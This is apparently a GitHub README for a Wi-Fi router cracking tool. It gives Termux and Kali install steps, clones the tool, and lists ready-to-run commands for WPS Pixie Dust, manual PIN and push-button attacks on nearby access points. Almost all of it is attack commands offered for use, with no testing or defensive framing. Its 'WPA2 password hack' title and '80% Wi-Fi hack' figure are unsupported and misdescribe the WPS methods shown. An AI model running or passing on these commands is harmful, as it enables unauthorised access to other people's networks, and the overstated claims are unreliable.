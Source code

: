 # Wi-Fi WPA2 PassWord HACK ONLY ROUTER

pkg install -y root-repo

pkg install -y git tsu python wpa-supplicant pixiewps iw openssl

# download only root user

apt-get install build-essential

apt-get install libpcap-dev

apt-get install sqlite3

apt-get install libsqlite3-dev

apt-get install pixiewps

# installing Tool ComMand
![Screenshot_2024-01-12-16-12-14-241_com termux](https://github.com/HeartHaNterAlex/wifi/assets/139457526/16b0b31a-3385-4fb7-ac7b-5046118c0b08)

pkg install git

pkg install python3


git clone https://github.com/HeartHaNterAlex/wifi


# only one command run


sudo python wifi/ps.py -i wlan1 -K
# kali command 

sudo python wifi/kali-ps.py -i wlan1 -K
![Screenshot_2024-01-12-16-14-06-822_com termux](https://github.com/HeartHaNterAlex/wifi/assets/139457526/c6af3833-4b1f-4e86-b7e0-191f0ccac1b1)
# select Host number press inter attack 

# manual pin attack 🧷

sudo python3 wifi/ps.py -i wlan0 -b d9:90:4C:C9:D0:A7 -B -p 1234
# 80% Wi-Fi hack
sudo python3 wifi/ps.py -i wlan0 --pbc
# help command
sudo python wifi/ps.py -i wlan1 -K -h
